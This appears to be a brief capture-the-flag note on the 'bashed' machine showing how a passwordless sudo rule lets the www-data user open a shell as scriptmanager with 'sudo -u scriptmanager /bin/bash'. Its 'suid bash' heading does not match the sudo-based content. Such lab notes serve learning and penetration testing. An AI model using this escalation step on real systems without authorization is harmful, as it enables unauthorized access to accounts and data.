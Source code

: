 # suid bash

    Running SUDO permission without a password

    User www-data may run the following commands on bashed:
        (scriptmanager : scriptmanager) NOPASSWD: ALL


    In this example as this is a user not a file, we can execute as user "scriptmanager"
    without specifying a password.


    www-data@bashed:/dev/shm$ sudo -u scriptmanager /bin/bash